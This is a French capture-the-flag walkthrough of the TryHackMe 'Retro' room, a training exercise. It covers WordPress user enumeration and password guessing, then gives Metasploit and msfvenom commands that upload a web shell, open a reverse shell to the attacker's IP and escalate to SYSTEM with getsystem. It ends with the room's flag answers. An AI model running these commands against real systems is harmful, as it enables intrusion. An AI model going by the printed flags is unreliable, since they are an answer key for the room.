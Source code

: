 # THM - Retro
<p align="center">
  <img width="300" height="" src="./img/logo.jpeg">
</p>

Description | Difficulté | Lien
-------------|------------|-----
New high score! | Hard 🔴| [THM](https://tryhackme.com/room/retro)

Enumération des ports :
```
Port 80 et port 3389 ouvert
```

On regarde le port 80, on sait que c'est un IIS version 10.
On énumére les chemins avec dirsearch :
<p align="center">
  <img width="" height="" src="./img/img1.png">
</p>

Un second site est présent sur le chemin /retro/
> **Note**
> Première question : A web server is running on the target. What is the hidden directory which the website lives on ? ``/retro`` 

En allant dessus, on comprend que c'est un wordpress et j'utilise WPSCAN pour énumérer les vulnérabilités, je n'en trouve aucune, mais j'énumère les utilisateurs et je découvre le nom de "wade" qui est l'auteur de tous les articles.

En regardant les posts sur le site, on découvre que wade c'est mis un pense-bête dans un commentaire. Il met qu'il ne faut pas oublier comment s'écrit "parzival". 

J'essaye parzival comme mot de passe et bingo ça fonctionne.
Notre premier jeu de credential :
```
wade:parzival
```

Avec ce mot de passe, je me fait spawn un shell via metasploit :
```bash
msfconsole -q 
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set RHOST 10.10.185.133
RHOST => 10.10.185.133
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set targeturi /retro/
targeturi => /retro/
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set username wade
username => wade
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set password parzival
password => parzival
msf6 exploit(unix/webapp/wp_admin_shell_upload) > check
[*] 10.10.185.133:80 - The target appears to be vulnerable.
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set LHOST 10.14.49.211
LHOST => 10.14.49.211
msf6 exploit(unix/webapp/wp_admin_shell_upload) > run
```

On a un premier shell mais pas super stable, je décide d'envoyer un autre shell :
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.14.49.211 LPORT=4445 -f exe > shell.exe
```
Avec le premier shell exploité, j'upload le nouveau :
```bash
upload shell.exe
execute -f shell.exe
```
Et depuis une seconde console, j'execute msfconsole à nouveau :
```bash
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.14.49.211
LHOST => 10.14.49.211
msf6 exploit(multi/handler) > set LPORT 4445
LPORT => 4445
msf6 exploit(multi/handler) > set payload windows/shell/reverse_tcp
payload => windows/shell/reverse_tcp
msf6 exploit(multi/handler) > run
```
Et enfin j'upgrade le shell vers meterpreter :
```bash
[CTRL + Z]
Background session 2? [y/N]  y
msf6 exploit(multi/handler) > use post/multi/manage/shell_to_meterpreter
msf6 post(multi/manage/shell_to_meterpreter) > set LHOST 10.14.49.211
msf6 post(multi/manage/shell_to_meterpreter) > set session 2
session => 2
msf6 post(multi/manage/shell_to_meterpreter) > exploit
msf6 post(multi/manage/shell_to_meterpreter) > sessions 3
[*] Starting interaction with 3...

meterpreter >
```
Et enfin je deviens SYSTEM avec la commande getsystem qui facilite l'exploit :
```bash
meterpreter > getsystem
...got system via technique 5 (Named Pipe Impersonation (PrintSpooler variant)).
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

Je recupère les deux flags.
```cmd
type c:\Users\Wade\Desktop\user.txt.txt
3b99fbdc6d430bfb51c72c651a261927
type c:\Users\Administrator\root.txt.txt
7958b569565d7bd88d10c6f22d1c4063
```
> **Note**
> Seconde question : user.txt ``3b99fbdc6d430bfb51c72c651a261927``

> **Note**
> Troisième question : root.txt ``7958b569565d7bd88d10c6f22d1c4063``
